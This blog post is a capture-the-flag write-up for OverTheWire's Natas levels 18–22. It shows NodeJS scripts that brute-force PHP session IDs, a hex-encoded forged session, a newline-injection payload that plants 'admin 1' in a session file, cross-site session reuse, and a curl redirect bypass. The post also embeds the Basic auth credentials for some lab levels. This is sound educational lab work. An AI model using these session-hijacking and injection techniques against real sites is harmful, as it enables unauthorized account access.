 ```yaml
---
layout: post
title: natas-writeup - lv18-lv??
excerpt: "Writeup for the Natas wargame on overthewire.org, from Level 18 to ??."
categories: [writeup]
tags: [itsec, wargame]
---
```


[overthewire / natas](http://www.overthewire.org/wargames/natas/)

## Level 18 ##

In this level we're given access to the source behind `index.php`. I originally thought there might be something in the way user inputs were compared but no luck. 2 things caught my attention - the first being a comment on the maximum number of sessions: `$maxid = 640; // 640 should be enough for everyone `, followed by the snippet below:

{% highlight javascript %}
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true; 
{% endhighlight %}

Which seems to indicate some sessions would already have the `admin` flag set - so why not iterate through all 640 of them and see if the flag is set correctly somewhere?

I fired up Burp Intruder but given I only have the community edition, which throttles requests, it turned out to be faster to write the NodeJS snippet below:

{% highlight javascript %}
const got = require('got');

const sessionIds = [...Array(641).keys()]; // there are 640
sessionIds.forEach( (sessionId) => {
  got.get('http://natas18.natas.labs.overthewire.org/index.php?debug', {                                             headers: {                                                                                                         'Authorization': 'Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==',
      'Cookie': `PHPSESSID=${sessionId}`}}).then(resp =>
      {
        if (resp.body.includes('You are an admin')) {
          console.log(`sessionId: ${sessionId} + ${resp.body}`);
        }
      });                                                                                                        });
{% endhighlight %}

And soon enough:

```
sessionId: 119 + <html>
<head>
...
<div id="content">
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br>
...
```

## Level 19 ##

We're told the code for this level is similar to the previous one, but that the format of session ID (`PHPSESSID`) differs.

Using Burp's sequencer I gathered close to 10,000 tokens. A quick run through `sort | uniq` led to a list of 640 unique tokens. I ran through those fairly quickly with the below:

{% highlight javascript %}
const got = require('got');
const fs = require('fs');

const sessionIds = fs.readFileSync('natas19.tokens.uniq','utf8').split('\r\n'); // there are 640
sessionIds.forEach( (sessionId) => {
  got.get('http://natas19.natas.labs.overthewire.org/index.php?debug', {
    headers: {
      'Authorization': 'Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==',
      'Cookie': `PHPSESSID=${sessionId}`}}).then(resp =>
      {
        if (sessionId && !resp.body.includes('regular user')) {                                                                   console.log(`sessionId: ${sessionId} + ${resp.body}`);
        }                                                                                                                     });
});
{% endhighlight %}

But none of them worked - something wasn't right. From looking at the tokens, it was clear there was a part that was static: `2d616263`. This turned out to be hex for `-abc`, `abc` being the username I originally tried to log in with!

Essentially I could re-use the code for natas18, but would need to append `-admin` to each session id and convert it to hex instead. A few tries later, we're in!

For the record the session was derived as: `const s = Buffer.from(`${sessionId}-admin`).toString('hex');`

## Level 20

This one is a little different from the previous 2 given the session ID seems pretty random. A quick look at the code however reveals a red flag. The `mywrite` function:


{% highlight php %}
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    } 
{% endhighlight %}

And `myread`:

{% highlight php %}
   foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1]; 
{% endhighlight %}

Whatever we pass in as the username will be written to file and read back as key/value pairs in the `$_SESSION` object. So if we could add `admin 1` as an entry, we'd be home free. In other words, we need to add a new line to get the `mywrite` function to essentially write 2 entries.

Modifying the request to `foo%0Aadmin%201` (with `\n` and `(space)` URL-encoded) does just that - though note I had to modify the request directly in Burp vs through the textbox for this to work.

## Level 21

We're presented with a page that states it is co-located with [natas21-experimenter](http://natas21-experimenter.natas.labs.overthewire.org/index.php). The code on the main page indicates we're back to figuring out how to stuff `admin=1` in `$_SESSION` - but there's nothing on this page that would allow us to change that.

The other page however (natas21-experimenter) allows user input - lots of it. Looking at the code, the following snippet jumps out:

{% highlight php %}
// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
} 
{% endhighlight %}

We're free to add new parameters to `$_REQUEST` when submitting changes and those will be set in `$_SESSION` - yay!. Adding `&admin=1` to the `POST` parameters does the trick. However, this isn't the site we need those on.

Instead we grab the referer header along with the cookies and pass those back to the original site:

```
Referer: http://natas21-experimenter.natas.labs.overthewire.org/index.php
Cookie: __cfduid=dc5dfb9ecd6e2ed04913757fe15630eb81548476605; PHPSESSID=d0vhsull9qme8gi98ic81etna5
```

This tricks it into re-using the session we created for `natas21-experimeter` - which contains `admin=1`. Done!

## Level 22

The source tells us the credentials for natas23 will only be displayed if `if(array_key_exists("revelio", $_GET))` - but the snippet at the top strips all our parameters (the `header` function is essentially a redirect).:

{% highlight php %}
if(array_key_exists("revelio", $_GET)) {
        // only admins can reveal the password
        if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
                header("Location: /");
        }
}
{% endhighlight %}

If we were to view this in say Firefox, the browser would automatically follow the redirect to `/`. But with `curl`, which doesn't follow redirects by default, it's easy: `curl -v --user natas22:<password_for_natas22> http://natas22.natas.labs.overthewire.org/?revelio -o - | grep Password`
